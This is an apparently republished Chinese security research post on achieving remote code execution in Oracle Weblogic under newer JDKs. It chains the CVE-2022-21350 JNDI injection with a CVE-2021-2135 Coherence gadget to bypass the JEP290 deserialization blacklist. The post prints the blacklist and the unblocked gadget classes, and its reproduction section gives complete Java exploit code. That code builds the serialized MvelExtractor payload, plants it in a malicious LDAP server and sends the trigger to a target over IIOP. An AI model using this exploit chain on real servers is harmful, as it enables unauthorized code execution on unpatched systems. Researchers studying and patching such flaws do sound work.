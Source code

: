 ```yaml
---
title: Weblogic 高版本JDK下的JNDI利用
date: 2023-03-13 16:04:42
tags:
    - 漏洞分析
    - 安全技术
---
```


    本文首发于奇安信攻防社区:https://forum.butian.net/share/2163

Weblogic在2022年的补丁中，给一个JNDI注入的漏洞（CVE-2022-21350）CVSS评分定为6.5，根据漏洞发现者的描述，官方认为高版本的Weblogic中，提示了需要使用1.8.0\_191之上的JDK才足够安全，官方认为虽然可以JNDI注入，但是无法造成实际的影响。

![](img/weblogic_highJDK/image_JLvry36KsJ.png)

高版本的JDK禁止了直接利用RMI、LDAP等协议进行任意代码执行，同时使程序受JEP290保护，JDK中提供了一个setInternalObjectInputFilter，用户可以自行对这个filter进行定义。这个filter也是Weblogic把JNDI注入不当回事的底气。

但是经过研究，我发现了一种可以在高版本的JDK中进行Weblogic JNDI注入导致RCE的利用方法

## 高版本的限制

常规的高版本JDK JNDI注入，包含两种方法：

-   利用Tomcat的`BeanFactory`进行恶意类加载
-   利用LDAP的javaSerializedData属性进行反序列化

在Weblogic中不包含Tomcat相关依赖，因此我们重点关注第二种方法。Weblogic中存在众多的反序列化链，并且大多数链的修复方法都是将其加入黑名单

此处进行测试，随便使用一种反序列化链，在LDAP反序列化中进行使用，会发现反序列化失败，同时weblogic的日志中出现如下记录。可以看到是在ObjectInputFilter中对java.rmi.server.RemoteObjectInvocationHandler关键类进行了拒绝。

![](img/weblogic_highJDK/企业微信截图_16849072435848_O9feGCb6J4.png)

这是JDK的反序列化机制，用户可以自行定义类实现ObjectInputFilter接口，从而在反序列化的过程中建立一个白名单。 下图是从JNDI注入到程序进行反序列化类检查过程的调用链

![](img/weblogic_highJDK/image_LHoaa0Yc98.png)

其中在ObjectInputStream.filterCheck函数中进行了用户自定义InputFIilter类的调用。最终的检查是一个list逐个进行匹配。

![]reblogic_highJDK/image_ljL-hBOKcn.png)

黑名单的类如下：

```http
!org.codehaus.groovy.runtime.ConvertedClosure;!org.codehaus.groovy.runtime.ConversionHandler;!org.codehaus.groovy.runtime.MethodClosure;!org.springframework.transaction.support.AbstractPlatformTransactionManager;!java.rmi.server.UnicastRemoteObject;!java.rmi.server.RemoteObjectInvocationHandler;!com.bea.core.repackaged.springframework.transaction.support.AbstractPlatformTransactionManager;!java.rmi.server.RemoteObject;!com.tangosol.coherence.rest.util.extractor.MvelExtractor;!java.lang.Runtime;!oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor;!org.eclipse.persistence.internal.descriptors.MethodAttributeAccessor;!org.eclipse.persistence.internal.descriptors.InstanceVariableAttributeAccessor;!oracle.jdbc.pool.OraclePooledConnection;!org.apache.commons.collections.functors.*;!com.sun.org.apache.xalan.internal.xsltc.trax.*;!javassist.*;!java.rmi.activation.*;!sun.rmi.server.*;!org.jboss.interceptor.builder.*;!org.jboss.interceptor.reader.*;!org.jboss.interceptor.proxy.*;!org.jboss.interceptor.spi.metadata.*;!org.jboss.interceptor.spi.model.*;!com.bea.core.repackaged.springframework.aop.aspectj.*;!com.bea.core.repackaged.springframework.aop.aspectj.annotation.*;!com.bea.core.repackaged.springframework.aop.aspectj.autoproxy.*;!com.bea.core.repackaged.springframework.beans.factory.support.*;!org.python.core.*;!com.bea.core.repackaged.aspectj.weaver.tools.cache.*;!com.bea.core.repackaged.aspectj.weaver.tools.*;!com.bea.core.repackaged.aspectj.weaver.reflect.*;!com.bea.core.repackaged.aspectj.weaver.*;!com.oracle.wls.shaded.org.apache.xalan.xsltc.trax.*;!oracle.eclipselink.coherence.integrated.internal.querying.*;!oracle.eclipselink.coherence.integrated.internal.cache.*
```

## 寻找可用链

用这份黑名单类和WebLogicFilterConfig中的封禁类做对比，发现如下两个变量里的类并没有被加如这个黑名单。

```java
private static final String[] DEFAULT_WLS_ONLY_BLACKLIST_CLASSES = new String[]{"com.tangosol.util.extractor.ReflectionExtractor", "com.tangosol.util.extractor.ComparisonValueExtractor", "com.tangosol.util.extractor.ConditionalExtractor", "com.tangosol.util.extractor.ReflectionUpdater", "com.tangosol.util.extractor.ScriptValueExtractor", "com.tangosol.util.extractor.UniversalExtractor", "com.tangosol.util.extractor.UniversalUpdater", "com.tangosol.internal.util.SimpleBinaryEntry", "com.tangosol.coherence.component.util.daemon.queueProcessor.service.grid.partitionedService.PartitionedCache$Storage$BinaryEntry"};

private static final String[] DEFAULT_WLS_ONLY_BLACKLIST_PACKAGES = new String[]{"com.tangosol.internal.util.invoke", "com.tangosol.internal.util.invoke.lambda", "com.tangosol.coherence.rest.util.extractor", "com.tangosol.coherence.rest.util", "com.tangosol.coherence.component.application.console"};

```

&#x20;&#x20;

其中com.tangosol.util.extractor.ReflectionExtractor、com.tangosol.util.extractor.ComparisonValueExtractor在之前的CVE-2020-2883出现过，但是ReflectionExtractor中存在补丁

![](img/weblogic_highJDK/image_2VqwQ73ZkF.png)

无法再利用该类进行利用。

com.tangosol.util.extractor.UniversalExtractor出现在CVE-2020-14645，但是这条链的sink点依然是JNDI注入，因此也不再考虑。

而com.tangosol.internal.util.SimpleBinaryEntry和com.tangosol.coherence.component.util.daemon.queueProcessor.service.grid.partitionedService.PartitionedCache\$Storage\$BinaryEntry ，被分别使用在了CVE-2021-2135和CVE-2021-35617。这两条链都属于二次反序列化，最终的sink点都是使用MvelExtractor直接执行java代码，因此理论上是可以使用的。但是在实际的测试中我才发现，CVE-2021-35617的补丁点不单单是加入黑名单，同时是直接去除了一个重要类的serialize继承接口，导致整条无法使用。因此最后确定的可使用链就为CVE-2021-2135。

经过实际的测试，的确可以在JDK1.8u191及以上的版本中实现RCE

![](img/weblogic_highJDK/企业微信截图_16849071732250_7RsoFMuf0e.png)

## 漏洞复现

1.  使用如下代码，序列化CVE-2021-2135的POC。其中POC为发起一个URL请求，请求地址为http\://TARGET\_IP/1234567
    ```java
    public static Object getObject(String command) throws Exception {

        String cmd="new java.net.URL(\""+command+"\").openStream();";
        MvelExtractor mvelExtractor =new MvelExtractor();
        Reflections.setFieldValue(mvelExtractor,"m_sExpr",cmd);

        TopNAggregator.PartialResult partialResult =new TopNAggregator.PartialResult();

        Reflections.setFieldValue(partialResult,"m_comparator",mvelExtractor);
        Reflections.setFieldValue(partialResult,"m_cMaxSize",5);
        partialResult.add("123");

        ByteArrayWriteBuffer bufferOutput =new ByteArrayWriteBuffer(new byte[4096]);
        WriteBuffer.BufferOutput b =  bufferOutput.getBufferOutput();
        b.write((byte)10);
        ExternalizableHelper.writeExternalizableLite(b,partialResult);

        b.flush();
        DefaultSerializer defaultSerializer = new DefaultSerializer();
        Binary binary =new Binary(bufferOutput.toByteArray());
        SimpleBinaryEntry simpleBinaryEntry =new SimpleBinaryEntry();
        Reflections.setFieldValue(simpleBinaryEntry,"m_binKey",binary);
        Reflections.setFieldValue(simpleBinaryEntry,"m_serializer",defaultSerializer);
        XString xString =new XString("");
        InflatableMap inflatableMap =new InflatableMap();
        inflatableMap.put(simpleBinaryEntry,"456");
        inflatableMap.put("test","4657");
        Object o =  ((Object[]) Reflections.getFieldValue(inflatableMap,"m_oContents"))[1];
        Reflections.setFieldValue(o,"key",xString);
        ConditionalPutAll conditionalPutAll =new ConditionalPutAll();

        Reflections.setFieldValue(conditionalPutAll,"m_map",inflatableMap);
        AttributeHolder attributeHolder =new AttributeHolder();
        Reflections.setFieldValue(attributeHolder,"m_oValue",conditionalPutAll);

        return  attributeHolder;

    }

    public static void main(String[] args) throws Exception{
        ExternalizableHelper.setObjectStreamFactory(new WLSObjectStreamFactory());
        byte[] ser =Serializer.serialize(getObject("http://TARGET_IP/1234567"));
        System.out.println(Base64.encodeBase64String(ser));
    }
    ```
2.  将生成的base64字符串复制到[https://github.com/kxcode/JNDI-Exploit-Bypass-Demo](https://github.com/kxcode/JNDI-Exploit-Bypass-Demo "https://github.com/kxcode/JNDI-Exploit-Bypass-Demo")项目的HackerLDAPRefServer类的sendResult方法的e.addAttribute语句中

    ![](img/weblogic_highJDK/image_Qmgx6-CfsQ.png)
3.  然后使用maven编译这个项目，并放到测试机上。

    ![](img/weblogic_highJDK/企业微信截图_16849069976718__B8OONhANE.png)
4.  在攻击机上使用CVE-2022-21350的POC进行攻击。其中回连的JNDI地址为ldap\://TARGET\_IP/aer
    ```java
    public static Object getPrivateObject(String className) throws Exception{
        Field singleoneInstanceField = Unsafe.class.getDeclaredField("theUnsafe");
        singleoneInstanceField.setAccessible(true);
        Unsafe unsafe = (Unsafe)singleoneInstanceField.get(null);
        Class clzz = Class.forName(className);
        return unsafe.allocateInstance(clzz);
    }

    public static Object getOBject() throws Exception{

        BadAttributeValueExpException badAttributeValueExpException =new BadAttributeValueExpException(null);
        FileSessionData sessionData = (FileSessionData)getPrivateObject("weblogic.servlet.internal.session.FileSessionData");
        Reflections.setFieldValue(sessionData,"isValid",true);
        HashMap map = new HashMap();
        Properties props = new Properties();
        Name name = new CompoundName("ldap://TARGET_IP/aer",props);
        HomeHandleImpl homeHandle = new HomeHandleImpl();
        Reflections.setFieldValue(homeHandle,"jndiName",name);
        Reflections.setFieldValue(homeHandle,"serverURL","t3://127.0.0.1:7001");
        BusinessHandleImpl b =new BusinessHandleImpl();
        Reflections.setFieldValue(b,"homeHandle",homeHandle);
        AttributeWrapper attributeWrapper= new AttributeWrapper(b);
        map.put("wl_debug_session",attributeWrapper);
        Reflections.setFieldValue(attributeWrapper,"isEJBObjectWrapped",true);
        Reflections.setFieldValue(sessionData,"attributes",map);
        Reflections.setFieldValue(sessionData,"internalAttributes",new Hashtable<>());
        Reflections.setFieldValue(badAttributeValueExpException,"val",sessionData);
        return  badAttributeValueExpException;


    }
    public static void main(String[] args) {
        try {
            String ip = args[0];
            String port = args[1];
            String rhost = String.format("iiop://%s:%s", ip, port);
            Hashtable<String, String> e = new Hashtable<String, String>();
            e.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
            e.put("java.naming.provider.url", rhost);
            Context context = new InitialContext(e);
            context.rebind("test", getOBject());
            
        } catch (Exception ex) {
            ex.printStackTrace();

        }
    }
    ```
5.  执行该POC后，在目标主机成功收到该请求

    ![](img/weblogic_highJDK/企业微信截图_16849068157595_35hv7KtUEC.png)
